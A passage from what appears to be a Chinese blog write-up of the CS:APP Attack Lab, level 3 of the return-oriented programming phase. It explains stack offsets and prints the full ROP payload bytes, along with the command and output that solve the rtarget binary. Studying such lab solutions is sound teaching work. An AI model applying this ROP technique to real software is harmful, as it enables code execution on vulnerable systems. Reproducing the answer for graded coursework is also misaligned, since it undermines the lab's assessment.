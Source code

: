 

图中值得注意的几点
- 128 我们的cookie地址
- 48 我们把%rsp的值复制到%rax时栈的地址
- 64 这里保存了cookie到保存%rsp时两者的偏移量，也就是120 - 48 = 72 (0x48)

```bash
# cat result5 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
```

> 恭喜，当你走到这里的时候你已经堕入了**魔道**


## Reference

- Computer Systems: A Programmer's Perspective, 3/E (CS:APP3e) (http://csapp.cs.cmu.edu/3e/labs.html)
- 15-213: Intro to Computer Systems: Schedule for Fall 2015 (http://www.cs.cmu.edu/afs/cs/academic/class/15213-f15/www/schedule.html)
- Linux and ASLR: kernel/randomize_va_space (https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/)
- cs:app 3.38 bufbomb (http://dev.poetpalace.org/?p=39)


## 关于作者

不怎么务正业的程序员，BUG制造者、CPU0杀手。从事过开发、运维、SRE、技术支持等多个岗位。原Oracle系统架构和性能服务团队成员，目前在腾讯从事运营系统开发。